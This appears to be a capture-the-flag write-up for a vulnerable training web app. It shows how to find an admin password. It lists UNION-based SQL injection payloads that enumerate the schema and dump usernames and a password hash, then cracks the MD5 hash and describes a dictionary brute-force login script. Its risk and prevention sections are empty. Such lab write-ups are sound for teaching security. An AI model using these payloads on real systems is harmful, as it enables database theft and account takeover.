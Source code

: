 # Bruteforce - Admin Member LogIn

## Breach type:
* A05:2021 Security Misconfiguration 
    * CWE-16 Configuration (feature that doesn't work installed: `page=recover` for recover password.)
* A01:2021 Broken Access Control
    * CWE-200 Exposure of Sensitive Information to an Unauthorized Actor.

## How to find the flag:
* Display all the tables of the databases with : `105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

* Discover a table named `db_default` which contains three columns : `id, username, password`

* Try to view its content with the following SQL command `105 OR 1=1 UNION SELECT username, 1 FROM db_default`.
It will return this error message : `Table 'Member_Sql_Injection.db_default' doesn't exist.`
    * We understand that it looks for the content of `db_default` in the wrong database.
    * We now need to find in which database `db_default` is stored

* Use this command to show all the tables and their databases : `105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.
    * We now know that `db_default` is part of the `Member_Brute_Force` database

* List all the usernames of `db_default` : `105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default`
    * We find two candidates : admin and root

* List all the password of `db_default`: `105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default`
    * We find hashed data for one specific password : `3bf1114a986ba87ed28fc1b5884fc2f8`
    * We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. 
    * There's 32 characters so it is probably hashed in MD5.
    * It is ! The password is `shadow`

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word `flag` is present in the response of the reconstructed URL : `full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"`

We can now go to the Signin page and log in with :
* Username : `admin`
* Password : `shadow`

## Risks:


## How to avoid:


Sources:
* https://owasp.org/Top10/fr/A03_2021-Injection/
* https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
* https://www.sqlinjection.net/table-names/
* https://www.sqlinjection.net/column-names/
* https://www.acunetix.com/websitesecurity/sql-injection/